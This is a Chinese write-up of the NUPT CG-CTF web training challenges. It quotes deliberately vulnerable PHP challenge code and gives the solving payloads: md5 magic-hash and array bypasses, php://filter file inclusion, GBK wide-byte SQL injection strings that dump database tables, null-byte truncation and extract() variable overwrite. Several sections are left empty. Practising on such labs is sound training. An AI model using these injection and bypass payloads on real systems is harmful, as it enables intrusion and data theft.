





## 南邮网络攻防训练平台-CG-CTF
- [签到题](#签到题)
- [md5_collision](#md5_collision)
- [签到2](#签到2)
- [这题不是WEB](#这题不是WEB)
- [层层递进](#层层递进)
- [AAencode](#AAencode)
- [单身二十年](#单身二十年)
- [php_decode](#php_decode)
- [文件包含](#文件包含)
- [单身一百年也没用](#单身一百年也没用)
- [Download~!](#Download~!)
- [COOKIE](#COOKIE)
- [MYSQL](#MYSQL)
- [GBK_Injection](#GBK_Injection)
- [/x00](#/x00)
- [bypass_again](#bypass_again)
- [变量覆盖](#变量覆盖)
- [PHP是世界上最好的语言](#PHP是世界上最好的语言)
## 签到题

- 右键查看源代码



## md5_collision

- `md5碰撞`

**题目源码**

```php
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
    echo "nctf{*****************}";
} else {
    echo "false!!!";
}}
else{echo "please input a";}
```

**核心代码**
```php
$a != 'QNKCDZO' && $md51 == $md52
```


**思路分析**
- 简单的PHP代码审计
- PHP弱类型的Hash比较缺陷

QNKCDZO加密后的md5值为0e830400451993494058024219903391，这里是0e开头的，因此在进行==等比较的时候，PHP把它当作科学计数法，0的无论多少次方都是零。

字符串加密后md5为0e开头的字符串如下列表
```
|  字符串     |              md5
|QNKCDZO     | 0e830400451993494058024219903391|
|240610708   | 0e462097431906509019562988736854|
|aabg7XSs    | 0e087386482136013740957780965295|
|aabC9RqS    | 0e041022518165728065344349536299|
|s878926199a | 0e545993274517709034328855841020|  
|s155964671a | 0e342768416822451524974117254469|
|s214587387a | 0e848240448830537924465865611904|
|s214587387a | 0e848240448830537924465865611904|
|s878926199a | 0e545993274517709034328855841020|
|s1091221200a| 0e940624217856561557816327384675|
|s1885207154a| 0e509367213418206700842008763514|
```
payload:
``?a=s878926199a``


## 签到2

检查元素修改maxlength




## 这题不是WEB
将2.gif图片下载，执行命令：

```bash
strings 2.gif|grep nctf
```



## 层层递进

``网站源码一看主要就使用了<iframe>标签，iframe 元素会创建包含另外一个文档的内联框架（即行内框架）。好像有点层层递进的感觉，所以这里重点是<iframe>标签内的内容。``

- 浏览器F12->Application->Frames


## AAencode

http://www.atoolbox.net/Tool.php?Id=703

题目坏了。

## 单身二十年

抓包点击``到这里找key__查看返回包即可

## php_decode

**题目源码**
```php
<?php
function CLsI($ZzvSWE) {
 
    $ZzvSWE = gzinflate(base64_decode($ZzvSWE));
 
    for ($i = 0; $i < strlen($ZzvSWE); $i++) {
 
        $ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);
 
    }
 
    return $ZzvSWE;
 
}
eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));
?>
```

将eval改为echo
```php
<?php
function CLsI($ZzvSWE){
    $ZzvSWE = gzinflate(base64_decode($ZzvSWE));
 
    for ($i = 0; $i < strlen($ZzvSWE); $i++) {
 
        $ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);
 
    }
 
    return $ZzvSWE;
 
}
echo CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA==");
// 输出phpinfo(); flag:nctf{gzip_base64_hhhhhh}
?>
```

## 文件包含

```bash
?file=php://filter/read=convert.base64-encode/resource=show.php
# dGVzdDEyMw==
```

```php
<html>
    <title>asdf</title>
    
<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 
//flag:nctf{edulcni_elif_lacol_si_siht}

?>
</html>
```

## 单身一百年也没用

burpsuite抓包返回包即可

## Download~!


## COOKIE


## MYSQL
- 访问robots.txt得到
```php
TIP:sql.php

<?php
if($_GET[id]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```

代码中提示了不可以直接输入id=1024,这里得想办法来绕过才可以。因为这里intval() 是整型转换函数，输入1024.xxx之类的小数都是会转换为1024的。

payload：
```
sql.php?id=1024.333
```

## GBK Injection
```
1%df' and 1=1 --+
1%df' and 1=2 --+ 

-1%df' union select 1,2 --+
-1%df' union select 1,database() --+
-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746634 --+
-1%df' union select 1,flag from ctf4 --+
```

## /x00

**题目源码**
```php
    if (isset ($_GET['nctf'])) {
        if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
            echo '必须输入数字才行';
        else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
            die('Flag: '.$flag);
        else
            echo '骚年，继续努力吧啊~';
    }
```

nctf变量值是数字且必须有`#biubiubiu`

考点：ereg截断且#需要url编码

?nctf=11%00%23biubiubiu

## bypass_again

**题目源码**
```php
if (isset($_GET['a']) and isset($_GET['b'])) {
if ($_GET['a'] != $_GET['b'])
if (md5($_GET['a']) == md5($_GET['b']))
die('Flag: '.$flag);
else
print 'Wrong.';
}
```

考点:MD5碰撞或数组绕过

payload:
`?a[]=1&b[]=2`
也可用
`?a=QNKCDZO&b=aabC9RqS`

## 变量覆盖
**题目源码**
```php
<?php
include("secret.php");
?>
<html>
    <head>
        <title>The Ducks</title>
        <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-1q8mTJOASx8j1Au+a5WDVnPi2lkFfwwEAa8hDDdjZlpLegxhjVME1fgjWPGmkzs7" crossorigin="anonymous">
        <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js" integrity="sha384-0mSbJDEHialfmuBBQP6A4Qrprq5OVfW37PRR3j5ELqxss1yVqOtnepnHVP9aJ7xS" crossorigin="anonymous"></script>
    </head>
    <body>
        <div class="container">
            <div class="jumbotron">
                <center>
                    <h1>The Ducks</h1>
                    <?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
                        <?php
                        extract($_POST);
                        if ($pass == $thepassword_123) { ?>
                            <div class="alert alert-success">
                                <code><?php echo $theflag; ?></code>
                            </div>
                        <?php } ?>
                    <?php } ?>
                    <form action="." method="POST">
                        <div class="row">
                            <div class="col-md-6 col-md-offset-3">
                                <div class="row">
                                    <div class="col-md-9">
                                        <input type="password" class="form-control" name="pass" placeholder="Password" />
                                    </div>
                                    <div class="col-md-3">
                                        <input type="submit" class="btn btn-primary" value="Submit" />
                                    </div>
                                </div>
                            </div>
                        </div>
                    </form>
                </center>
            </div>
            <p>
                <center>
                    source at <a href="source.php" target="_blank">/source.php</a>
                </center>
            </p>
        </div>
    </body>
</html>
```
payload如下：
```
pass=1&thepassword_123=1
```

## PHP是世界上最好的语言
**Resource**
- [国光writeup](https://www.sqlsec.com/2018/09/njuptctf.html)
- [CG-CTF](https://cgctf.x1ct34m.com/challenges#Web)

nuclei